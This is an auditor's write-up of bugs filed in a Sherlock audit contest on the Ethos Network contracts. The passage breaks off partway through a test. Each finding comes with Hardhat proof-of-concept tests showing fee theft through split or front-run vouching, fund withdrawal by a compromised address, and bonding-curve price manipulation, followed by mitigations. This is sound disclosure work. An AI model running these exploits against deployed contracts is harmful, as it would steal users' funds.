

# Leaderboard
[Ethos Network Results](https://audits.sherlock.xyz/contests/675/leaderboard)<br>

`Rank 4 / 395` <br>


# Audited Code Repo
### [Sherlock: Ethos Network](https://audits.sherlock.xyz/contests/675)
### [Github: Ethos Network](https://github.com/sherlock-audit/2024-11-ethos-network-ii/tree/main)

<br>

# <a id="summaryTable"></a>Bugs Filed & Their Status

| #      | Bug ID          | Name | URL    | Adjudged Status  |
|--------|-----------------|------|:------:|-----------------:|
| 1      | [H-01](#h-01)   | Attacker can steal considerable portion of fee by vouching in two steps instead of one | [29](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/29) | Accepted as High |
| 2      | [H-02](#h-02)   | Attacker can front-run a vouching deposit & steal fee | [31](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/31) | Rejected |
| 3      | [H-03](#h-03)   | Missing check in `unvouch()` allows compromised or deleted address to steal balance | [50](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/50) | Rejected |
| 4      | [H-04](#h-04)   | Bonding curve logic can be exploited to pay less for buying votes | [167](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/167) | Accepted as High |
| 5      | [H-05](#h-05)   | Missing check in `withdrawDonations()` allows compromised/deleted address to steal all donation | [183](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/183) | Rejected |
| 6      | [M-01](#m-01)   | Validation of time window allowed to call `markUnhealthy()` forgets to account for any paused duration | [9](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/9) | Rejected |
| 7      | [M-02](#m-02)   | Any reduction in `unhealthyResponsePeriod` via call to `updateUnhealthyResponsePeriod()` should not affect existing eligible users waiting to exercise `markUnhealthy()` | [21](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/21) | Rejected |
| 8      | [M-03](#m-03)   | Author can escape slashing by front-running it and unvouching | [30](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/30) | Rejected |
| 9      | [M-04](#m-04)   | MAX_TOTAL_FEES for `EthosVouch.sol` is set to `100%` instead of the expected `10%` | [86](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/86) | Rejected |
| 10     | [M-05](#m-05)   | No slippage protection in `sellVotes()` | [120](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/120) | Accepted as Medium |
| 11     | [M-06](#m-06)   | `marketConfigIndex` may change on addition & deletion from `marketConfigs[]` array and hence `createMarket()` may not invoke the default market configuration | [125](https://github.com/sherlock-audit/2024-11-ethos-network-ii-judging/issues/125) | Rejected |

<br>
<br>

## **HIGH-SEVERITY BUGS**
---

### <a id="h-01"></a>[H-01]
## **Attacker can steal considerable portion of fee by vouching in two steps instead of one**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L440
<br>

## Description & Impact
The function [increaseVouch() calls applyFees() internally](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L440) which in turn [calls _rewardPreviousVouchers()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L697). Here, all existing vouches are proportionally awarded a part of the `vouchersPoolFee` based on the ratio of their vouched amount to the total vouched amount. This **_includes_** the vouchId whose stake amount is being increased.
This can be used to game the system in the following manner:
- Assumption: Entry vouchers pool fee basis points = `10000` (for easy calculation). This effectively means `50%` of the voucher's `msg.value` will be deducted as fee.

- Normal Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`.
    - Bob vouches `1000 ETH` for the subject by calling `vouchByProfileId()`.
        - Alice gets `50% of 1000 = 500 ETH` as fee. Alice's balance = `600 ETH`.
        - Bob's balance = `500 ETH`.
        
- Attack Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`.
    - Bob (attacker) vouches `1000 ETH` in two steps. 
        - Step1: He calls `vouchByProfileId()` with `200 ETH`.
            - Alice gets `50% of 200 = 100 ETH` as fee. Alice's balance = `200 ETH`.
            - Bob's balance = `100 ETH`
        - Step2: He calls `increaseVouch()` with `800 ETH`.
            - Alice gets `(50% of 800) * 2/3 = 266.67 ETH` as fee. Alice's balance = `466.67`.
            - Bob gets `(50% of 800) * 1/3 = 133.34 ETH` as fee. Bob's balance = `633.34 ETH`.

Bob saved `133.34 ETH` in fee and robbed others of this amount. Note that the above example uses 2 steps for simplicity but Bob can increase the number of steps to enahnce his profit further.

## Proof of Concept
Apply the following patch inside `test/EthosVouch.test.ts` and see it pass when run via `npm run hardhat -- test --grep "should demonstrate fee savings with two-step vouching strategy"`:
```diff
diff --git a/ethos/packages/contracts/test/EthosVouch.test.ts b/ethos/packages/contracts/test/EthosVouch.test.ts
index be4d7f1..995ac57 100644
--- a/ethos/packages/contracts/test/EthosVouch.test.ts
+++ b/ethos/packages/contracts/test/EthosVouch.test.ts
@@ -131,13 +131,13 @@ describe('EthosVouch', () => {
         EXPECTED_SIGNER.address,
         signatureVerifierAddress,
         contractAddressManagerAddress,
         FEE_PROTOCOL_ACC.address,
         0, // Entry protocol fee basis points
         0, // Entry donation fee basis points
-        0, // Entry vouchers pool fee basis points
+        10000, // Entry vouchers pool fee basis points
         0, // Exit fee basis points
       ]),
     );
 
     await ethosVouchProxy.waitForDeployment();
     const ethosVouchAddress = await ethosVouchProxy.getAddress();
@@ -441,12 +441,58 @@ describe('EthosVouch', () => {
           'Wrong unhealthyResponsePeriod, 2',
         );
       });
     });
 
     describe('vouchByProfileId', () => {
+      it('should demonstrate fee savings with two-step vouching strategy', async () => {
+        const {
+          ethosVouch,
+          PROFILE_CREATOR_0,
+          PROFILE_CREATOR_1,
+          VOUCHER_0,
+          VOUCHER_1,
+          ethosProfile,
+          OWNER,
+        } = await loadFixture(deployFixture);
+
+        // create a profile
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_1.address);
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_1.address);
+        await ethosProfile.connect(VOUCHER_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_1).createProfile(1);
+        await ethosProfile.connect(VOUCHER_1).createProfile(1);
+
+        // Step 1: Naive user vouches 100 ETH
+        await ethosVouch.connect(VOUCHER_0).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('100'),
+        });
+
+        const attacker = VOUCHER_1;
+        // Step 2: Attacker vouches 200 ETH
+        await ethosVouch.connect(attacker).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('200'),
+        });
+        
+        // Step 3: Attacker vouches 200 ETH
+        await ethosVouch.connect(attacker).increaseVouch(
+          1,  // Same vouch ID
+          { value: ethers.parseEther('800') }
+        );
+        const initialVouch = await ethosVouch.vouches(0);
+        const attackerVouch = await ethosVouch.vouches(1);
+      
+        // Get final state for two-step attack
+        expect(initialVouch.balance).to.be.lt(ethers.parseEther('600'));
+        expect(attackerVouch.balance).to.be.gt(ethers.parseEther('500'));
+        console.log("Fee saved = %d", attackerVouch.balance - ethers.parseEther('500'));
+      });
+      
       it('should fail if no profile', async () => {
         const { ethosVouch, VOUCHER_0, ethosProfile, OWNER } = await loadFixture(deployFixture);
 
         await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
         await ethosProfile.connect(VOUCHER_0).createProfile(1);
 

```

## Mitigation 
Change the function signature of `_rewardPreviousVouchers()` to:
```diff
  function _rewardPreviousVouchers(
+   bool excludeAnyVoucherId,    
+   uint256 idToExclude,
    uint256 amount,
    uint256 subjectProfileId
  ) internal returns (uint256 amountDistributed)
```

and that of `applyFees()` to:
```diff
  function applyFees(
+   bool excludeAnyVoucherId,    
+   uint256 idToExclude,
    uint256 amount,
    bool isEntry,
    uint256 subjectProfileId
  ) internal returns (uint256 toDeposit, uint256 totalFees)
```

- `increaseVouch()` needs to call the updated `applyFees()` while passing params `excludeAnyVoucherId = true` and `idToExclude = vouchId`.
- `applyFees()` then calls this updated `_rewardPreviousVouchers()` inside it.
- And lastly, exclude this `idToExclude` inside the two `for` loops of `_rewardPreviousVouchers()` whenever `excludeAnyVoucherId = true`. 
- The calls to `applyFees()` originating from within other functions would need to be modified with `excludeAnyVoucherId = false` and `idToExclude = 0` (any value really).

[Back to Top](#summaryTable)
---

### <a id="h-02"></a>[H-02]
## **Attacker can front-run a vouching deposit & steal fee**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol
<br>

## Description & Impact
Functions [vouchByProfileId()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L330) or [vouchByAddress()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L309) and [increaseVouch()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L426) where the author deposits funds internally call other fee distributing functions one of which is [_rewardPreviousVouchers()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L697). Here, all existing vouches are proportionally awarded a part of the `vouchersPoolFee` based on the ratio of their vouched amount to the total vouched amount. 
This can be used to game the system by an attacker in the following manner:
- Assumption: Entry vouchers pool fee basis points = `10000` (for easy calculation). This effectively means `50%` of the voucher's `msg.value` will be deducted as fee.

- Normal Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`. Since there is no other voucher the balance look like:
        - Alice [pays no fee](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L714-L717). Alice's balance = `100 ETH`.
        
- Attack Scenario:
    - Alice vouches `100 ETH` for a subject by calling `vouchByProfileId()`.
    - Bob (attacker) front-runs her tx and vouches `0.0001 ETH`. Since he is the sole voucher, all fees gets redirected to him: 
        - Bob gets `50% of 100 = 50 ETH` as fee. 
        - Alice's balance = `50 ETH`

Note that while the aforementioned scenario is highly profitable for Bob since there were no pre-existing vouches, the issue still exists when there are vouches already in place. Only the magnitude of profitability for Bob decreases. Additionally, these other fee receivers (pre-existing vouchers) have a portion of their rightful fee stolen.

## Proof of Concept
Apply the following patch inside `test/EthosVouch.test.ts` and see it pass when run via `npm run hardhat -- test --grep "should demonstrate stealth of fee through front running"`:
```diff
diff --git a/ethos/packages/contracts/test/EthosVouch.test.ts b/ethos/packages/contracts/test/EthosVouch.test.ts
index be4d7f1..c290ce9 100644
--- a/ethos/packages/contracts/test/EthosVouch.test.ts
+++ b/ethos/packages/contracts/test/EthosVouch.test.ts
@@ -131,13 +131,13 @@ describe('EthosVouch', () => {
         EXPECTED_SIGNER.address,
         signatureVerifierAddress,
         contractAddressManagerAddress,
         FEE_PROTOCOL_ACC.address,
         0, // Entry protocol fee basis points
         0, // Entry donation fee basis points
-        0, // Entry vouchers pool fee basis points
+        10000, // Entry vouchers pool fee basis points
         0, // Exit fee basis points
       ]),
     );
 
     await ethosVouchProxy.waitForDeployment();
     const ethosVouchAddress = await ethosVouchProxy.getAddress();
@@ -441,12 +441,52 @@ describe('EthosVouch', () => {
           'Wrong unhealthyResponsePeriod, 2',
         );
       });
     });
 
     describe('vouchByProfileId', () => {
+      it('should demonstrate stealth of fee through front running', async () => {
+        const {
+          ethosVouch,
+          PROFILE_CREATOR_0,
+          PROFILE_CREATOR_1,
+          VOUCHER_0,
+          VOUCHER_1,
+          ethosProfile,
+          OWNER,
+        } = await loadFixture(deployFixture);
+
+        // create a profile
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
+        await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_1.address);
+        await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_1.address);
+        await ethosProfile.connect(VOUCHER_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+        await ethosProfile.connect(PROFILE_CREATOR_1).createProfile(1);
+        await ethosProfile.connect(VOUCHER_1).createProfile(1);
+
+        const attacker = VOUCHER_1;
+
+        // ============== FRONT-RUNNING Tx by the attacker ===============
+        // Attacker vouches 0.0001 ETH
+        await ethosVouch.connect(attacker).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('0.0001'),
+        });
+        // ===============================================================
+        
+        // Naive user's Tx: vouches 100 ETH
+        await ethosVouch.connect(VOUCHER_0).vouchByProfileId(4, DEFAULT_COMMENT, DEFAULT_METADATA, {
+          value: ethers.parseEther('100'),
+        });
+
+        // Verify stolen fee
+        const attackerVouch = await ethosVouch.vouches(0);
+        expect(attackerVouch.balance).to.be.gt(ethers.parseEther('50'));
+      });
+      
       it('should fail if no profile', async () => {
         const { ethosVouch, VOUCHER_0, ethosProfile, OWNER } = await loadFixture(deployFixture);
 
         await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
         await ethosProfile.connect(VOUCHER_0).createProfile(1);
 

```

## Mitigation 
It's recommended to have a time delay after an author deposits funds for vouching. Only after this time delay should they be eligible to receive a portion of the 'previous voucher fee'.

[Back to Top](#summaryTable)
---

### <a id="h-03"></a>[H-03]
## **Missing check in `unvouch()` allows compromised or deleted address to steal balance**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L456-L458
<br>

## Description
The protocol comments the following [inside unvouch()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L456-L458):
```text
    // because it's $$$, you can only withdraw/unvouch to the same address you used to vouch
    // however, we don't care about the status of the address's profile; funds are always attached
    // to an address, not a profile
```
But the protocol does not also check if the address belongs to the profile anymore.

This leads to the following vulnerability:
1. Alice vouches for Bob using address A1.
2. A1 gets compromised and Alice marks it as compromised. (Alternatively, A1 is deleted by Alice and A1 gets assigned to some other profile id).
3. The attacker who compromised A1 can still call `unvouch()`.
4. The funds get sent back to A1, which the attacker now controls.
5. Alice has no recourse to block the attacker's actions or recover her funds.

## Impact
Two impacts:
1. A compromised/deleted address is able to steal the funds via `unvouch()`.
2. Even if a check is introduced to block such addresses from receiving funds, there exists no way to rescue these funds and return to the rightful author.

## Proof of Concept
Apply the following patch inside `test/EthosVouch.test.ts` and see it pass when run via `npm run hardhat -- test --grep "should allow compromised address to unvouch and receive funds"`:
```diff
diff --git a/ethos/packages/contracts/test/EthosVouch.test.ts b/ethos/packages/contracts/test/EthosVouch.test.ts
index be4d7f1..0424b29 100644
--- a/ethos/packages/contracts/test/EthosVouch.test.ts
+++ b/ethos/packages/contracts/test/EthosVouch.test.ts
@@ -1,10 +1,11 @@
 import { loadFixture, time } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
 import { expect } from 'chai';
 import hre from 'hardhat';
 import { smartContractNames } from './utils/mock.names.js';
+import { common } from './utils/common.js';
 
 const { ethers } = hre;
 
 describe('EthosVouch', () => {
   const DEFAULT_COMMENT = 'default comment';
   const DEFAULT_METADATA = '{ "someKey": "someValue" }';
@@ -1202,9 +1203,78 @@ describe('EthosVouch', () => {
             ),
           )
             .to.be.revertedWithCustomError(ethosVouch, 'NotAuthorForVouch')
             .withArgs(0, 5);
         });
       });
+       
+      describe('Vouch security', () => {
+          it('should allow compromised address to unvouch and receive funds', async () => {
+              const { 
+                  ethosProfile, 
+                  ethosVouch, 
+                  VOUCHER_0, 
+                  PROFILE_CREATOR_0,
+                  OTHER_0,
+                  EXPECTED_SIGNER,
+                  OWNER 
+              } = await loadFixture(deployFixture);
+
+              // Set up profile for voucher
+              await ethosProfile.connect(OWNER).inviteAddress(VOUCHER_0.address);
+              await ethosProfile.connect(VOUCHER_0).createProfile(1);
+
+              // Set up profile for subject
+              await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
+              await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
+
+              // VOUCHER_0 creates a vouch for PROFILE_CREATOR_0
+              const vouchAmount = ethers.parseEther('100');
+              await ethosVouch.connect(VOUCHER_0).vouchByProfileId(
+                  3, // PROFILE_CREATOR_0's profile ID
+                  'Vouch comment',
+                  'Vouch metadata',
+                  { value: vouchAmount }
+              );
+
+              // Get VOUCHER_0's balance before their address is compromised
+              const voucherBalanceBefore = await ethers.provider.getBalance(VOUCHER_0.address);
+
+              // Now simulate VOUCHER_0's address being compromised
+              // First register a new address for their profile so they can mark original as compromised
+              const randValue = BigInt('29548234957'); // Using a deterministic value for testing
+              const signature = await common.signatureForRegisterAddress(
+                  OTHER_0.address,
+                  '2', // VOUCHER_0's profile ID
+                  randValue.toString(),
+                  EXPECTED_SIGNER
+              );
+              
+              await ethosProfile
+                  .connect(VOUCHER_0)
+                  .registerAddress(OTHER_0.address, 2, randValue, signature);
+
+              // Mark VOUCHER_0's original address as compromised using their new address
+              await ethosProfile.connect(OTHER_0).deleteAddress(VOUCHER_0.address, true);   // <------- Alternatively, can pass `false` as last param if only want to delete, without marking as compromised
+
+              // Verify the address is marked as compromised
+              expect(await ethosProfile.isAddressCompromised(VOUCHER_0.address)).to.be.true; // <------- comment this if not marked as compromised in the step above
+
+              // Despite being compromised, the address can still unvouch and receive funds
+              // Simulate the attacker who now controls VOUCHER_0's compromised address
+              const unvouchTx = await ethosVouch.connect(VOUCHER_0).unvouch(0);
+              await unvouchTx.wait();
+
+              // Check that the compromised address received the funds
+              const voucherBalanceAfter = await ethers.provider.getBalance(VOUCHER_0.address);
+              // The balance should have increased (minus gas costs)
+              expect(voucherBalanceAfter).to.be.closeTo(voucherBalanceBefore + ethers.parseEther('100'), ethers.parseEther('0.001'));
+
+              // Verify the vouch is now archived
+              const vouch = await ethosVouch.vouches(0);
+              expect(vouch.archived).to.be.true;
+          });
+      });
+
     });
   });
 });

```

## Mitigation 
1. Add the check to revert if a compromised/deleted author address attempts to be the recipient of `unvouch()`:
```diff
  function unvouch(uint256 vouchId) public whenNotPaused nonReentrant {
    Vouch storage v = vouches[vouchId];
    _vouchShouldExist(vouchId);
    _vouchShouldBePossibleUnvouch(vouchId);
    // because it's $$$, you can only withdraw/unvouch to the same address you used to vouch
    // however, we don't care about the status of the address's profile; funds are always attached
    // to an address, not a profile
    if (vouches[vouchId].authorAddress != msg.sender) {
      revert AddressNotVouchAuthor(vouchId, msg.sender, vouches[vouchId].authorAddress);
    }
    
+   // get the profile id of the author
+    uint256 profileId = IEthosProfile(
+      contractAddressManager.getContractAddressForName(ETHOS_PROFILE)
+    ).verifiedProfileIdForAddress(msg.sender);
+    _vouchShouldBelongToAuthor(vouchId, profileId);

    v.archived = true;
    // solhint-disable-next-line not-rely-on-time
    v.activityCheckpoints.unvouchedAt = block.timestamp;
    // remove the vouch from the tracking arrays and index mappings
    _removeVouchFromArrays(v);

    // apply fees and determine how much is left to send back to the author
    (uint256 toWithdraw, ) = applyFees(v.balance, false, v.subjectProfileId);
    // set the balance to 0 and save back to storage
    v.balance = 0;
    // send the funds to the author
    // note: it sends it to the same address that vouched; not the one that called unvouch
    (bool success, ) = payable(v.authorAddress).call{ value: toWithdraw }("");
    if (!success) {
      revert FeeTransferFailed("Failed to send ETH to author");
    }

    emit Unvouched(v.vouchId, v.authorProfileId, v.subjectProfileId);
  }
```

2. The second fix is more of a design decision which the protocol can take. There should be a way to recover this fund on calling `unvouch()`. Either a new convenience function `reassignVouchAddress()` can be added which looks something like this:
```js
function reassignVouchAddress(
    uint256 vouchId, 
    address newAddress,
    bytes calldata signature  // Signed proof of new address ownership
) external {
```
Or the admin could float a proposal which allows them to rescue funds from such compromised vouches, and introduce a new function for the same.

[Back to Top](#summaryTable)
---

### <a id="h-04"></a>[H-04]
## **Bonding curve logic can be exploited to pay less for buying votes**
#### https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L920-L923
<br>

## Description & Impact
The [_calcVotePrice()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L920-L923) function uses the following bonding curve formula:
```js
  File: ethos/packages/contracts/contracts/ReputationMarket.sol

   912:            /**
   913:             * @notice Calculates the buy or sell price for votes based on market state
   914:@--->        * @dev Uses bonding curve formula: price = (votes * basePrice) / totalVotes
   915:             * Markets are double sided, so the price of trust and distrust votes always sum to the base price
   916:             * @param market The market state to calculate price for
   917:             * @param isPositive Whether to calculate trust (true) or distrust (false) vote price
   918:             * @return The calculated vote price
   919:             */
   920:            function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
   921:              uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
   922:              return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
   923:            }
```
This can be manipulated in the following ways:

**_Example1:_**  ( _coded in PoC1_ )
- Normal Scenario:
    - For a default market config, Alice decides to buy some trust votes.
    - She calls `buyVotes()` with `0.1 ETH` of funds.
    - This fetches her 12 trust votes and costs exactly `0.098439322450225045 ETH`.

- Attack Scenario:
    - For a default market config, Alice decides to buy 12 trust votes.
    - She decides to alternate her `buyVotes()` call between 1 trust vote and 1 distrust vote. 
    - She repeats this 12 times.
    - She sells all her distrust votes at the end. 
    - She ends up paying `0.079440616542537061 ETH`, which is `≈ 0.02 ETH` lesser than the normal scenario.
<br>

In fact in general, if Alice wishes to buy a higher-priced vote then it works in her favour to buy the lower-priced one first to make the vote ratio 1:1. At the end, this lower-priced purchase can be sold off for a net gain. 

**_Example2:_**  ( _coded in PoC2_ )
- Normal Scenario:
    - For a default market config, Bob is sitting with 99 trust votes he bought a few moments ago.
    - Alice wants to buy 100 trust votes. She calls `buyVotes()` with `1 ETH` of funds.
    - This fetches her 100 trust votes and costs exactly `0.993452851893538135 ETH`.

- Attack Scenario:
    - For a default market config, Bob is sitting with 99 trust votes he bought a few moments ago.
    - Alice wants to buy 100 trust votes.
    - She first buys 99 distrust votes. 
    - She now buys the 100 trust votes. 
    - She then sells all her distrust votes. 
    - She ends up paying `0.711616420426520863 ETH`, which is `≈ 0.28 ETH` lesser than the normal scenario.

## Proof of Concept
<details>
<summary>
PoC1
</summary>

Add this file as `rep.bondingCurveManipulation.test.ts` inside the `ethos/packages/contracts/test/reputationMarket/` directory and run with `npm run hardhat -- test --grep "BuyVotes Cost Manipulation"` to see the output:
```js
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, MarketUser } from './utils.js';

const { ethers } = hre;

describe('BuyVotes Cost Manipulation', () => {
    let deployer: EthosDeployer;
    let ethosUserA: EthosUser;
    let alice: MarketUser;
    let reputationMarket: ReputationMarket;
    let market: ReputationMarket.MarketInfoStructOutput;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);

        if (!deployer.reputationMarket.contract) {
        throw new Error('ReputationMarket contract not found');
        }
        ethosUserA = await deployer.createUser();
        await ethosUserA.setBalance('100');

        alice = new MarketUser(ethosUserA.signer);

        reputationMarket = deployer.reputationMarket.contract;
        DEFAULT.reputationMarket = reputationMarket;
        DEFAULT.profileId = ethosUserA.profileId;
        await reputationMarket
            .connect(deployer.ADMIN)
            .setUserAllowedToCreateMarket(DEFAULT.profileId, true);
        await reputationMarket.connect(alice.signer).createMarket({ value: ethers.parseEther('0.02') });
        market = await reputationMarket.getMarket(DEFAULT.profileId);
        expect(market.profileId).to.equal(DEFAULT.profileId);
        expect(market.trustVotes).to.equal(1);
        expect(market.distrustVotes).to.equal(1);
    });

    it('Normal Buy', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Record Alice's balance initially
        const aliceBalanceBefore = await ethosUserA.getBalance();
        
        // Alice buys trust votes
        const aliceInvestment = ethers.parseEther('0.1');
        await alice.buyVotes({
            buyAmount: aliceInvestment,
            expectedVotes: 12n,  // We know this from simulation
            slippageBasisPoints: 0  // 0% slippage allowed
        });

        // Verify Alice's position
        const alicePosition = await alice.getVotes();
        console.log("\n");
        console.log("votes position (TRUST)    =", alicePosition.trustVotes);
        expect(alicePosition.trustVotes).to.equal(12n);
        expect(alicePosition.distrustVotes).to.equal(0n);

        // Record Alice's balance now
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('Cost1:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });

    it('Malicious Buy', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Record Alice's balance initially
        const aliceBalanceBefore = await ethosUserA.getBalance();
        
        const bP = ethers.parseEther('0.01');
        let tV = 1n;
        let dV = 1n;
        let aliceInvestment;
        for(let i = 0; i < 12; i++) {
            // Alice buys trust votes
            aliceInvestment = (tV * bP) / (tV + dV);
            await alice.buyVotes({
                isPositive: true, // trust votes
                buyAmount: aliceInvestment,
                expectedVotes: 1n,  // We know this from simulation
                slippageBasisPoints: 0  // 0% slippage allowed
            });
            expect((await alice.getVotes()).trustVotes).to.equal(tV);
            tV++;

            if (i == 11) continue; // no need to manipulate further, 12 trust votes have been bought
            // Alice buys distrust votes
            aliceInvestment = (dV * bP) / (tV + dV);
            await alice.buyVotes({
                isPositive: false, // distrust votes
                buyAmount: aliceInvestment,
                expectedVotes: 1n,  
                slippageBasisPoints: 0
            });
            expect((await alice.getVotes()).distrustVotes).to.equal(dV);
            dV++;
        }

        // Verify Alice's position
        const alicePosition = await alice.getVotes();
        console.log("\n\n");
        console.log("votes position (TRUST)    =", alicePosition.trustVotes);
        
        // Alice sells all her distrust votes
        await reputationMarket
            .connect(alice.signer)
            .sellVotes(DEFAULT.profileId, false, alicePosition.distrustVotes);
        expect((await alice.getVotes()).distrustVotes).to.equal(0);

        // Record Alice's balance now
        const aliceBalanceAfter = await ethosUserA.getBalance();

        // Log the total cost to Alice
        console.log('Cost2:', ethers.formatEther(aliceBalanceBefore - aliceBalanceAfter), 'ETH');
    });
});
```

<br>

Output:
```text
  BuyVotes Cost Manipulation


votes position (TRUST)    = 12n
Cost1: 0.098439322450225045 ETH
    ✔ Normal Buy


votes position (TRUST)    = 12n
Cost2: 0.079440616542537061 ETH
    ✔ Malicious Buy (1125ms)


  2 passing (5s)
```
</details>
<br>

<details>
<summary>
PoC2
</summary>

Add this file as `rep.bondingCurveManipulated.test.ts` inside the `ethos/packages/contracts/test/reputationMarket/` directory and run with `npm run hardhat -- test --grep "t0x1c Buy n Sell"` to see the output:
```js
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, MarketUser } from './utils.js';

const { ethers } = hre;

describe('t0x1c Buy n Sell', () => {
    let deployer: EthosDeployer;
    let ethosUserA: EthosUser;
    let ethosUserB: EthosUser;
    let alice: MarketUser;
    let bob: MarketUser;
    let reputationMarket: ReputationMarket;
    let market: ReputationMarket.MarketInfoStructOutput;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);

        if (!deployer.reputationMarket.contract) {
        throw new Error('ReputationMarket contract not found');
        }
        ethosUserA = await deployer.createUser();
        await ethosUserA.setBalance('100');
        ethosUserB = await deployer.createUser();
        await ethosUserB.setBalance('100');

        alice = new MarketUser(ethosUserA.signer);
        bob = new MarketUser(ethosUserB.signer);

        reputationMarket = deployer.reputationMarket.contract;
        DEFAULT.reputationMarket = reputationMarket;
        DEFAULT.profileId = ethosUserA.profileId;
        await reputationMarket
            .connect(deployer.ADMIN)
            .setUserAllowedToCreateMarket(DEFAULT.profileId, true);
        await reputationMarket.connect(alice.signer).createMarket({ value: ethers.parseEther('0.02') });
        market = await reputationMarket.getMarket(DEFAULT.profileId);
        expect(market.profileId).to.equal(DEFAULT.profileId);
        expect(market.trustVotes).to.equal(1);
        expect(market.distrustVotes).to.equal(1);
    });

    it('Buy and Sell - normal', async () => {
        // Record initial state
        const initialMarket = await reputationMarket.getMarket(ethosUserA.profileId);
        expect(initialMarket.trustVotes).to.equal(1n);
        expect(initialMarket.distrustVotes).to.equal(1n);

        // Bob buys 99 trust votes
        await bob.buyVotes({
            isPositive: true, // trust votes
            buyAmount: ethers.parseEther('0.95'),
            expectedVotes: 99n,  
            slippageBasisPoints: 0  // 0% slippage allowed
        });
        expect((await bob.getVotes()).trustVotes).to.equal(99);
        
        const aliceBalanceBefore = await ethosUserA.getBalance();
        // Alice buys 100 trust votes
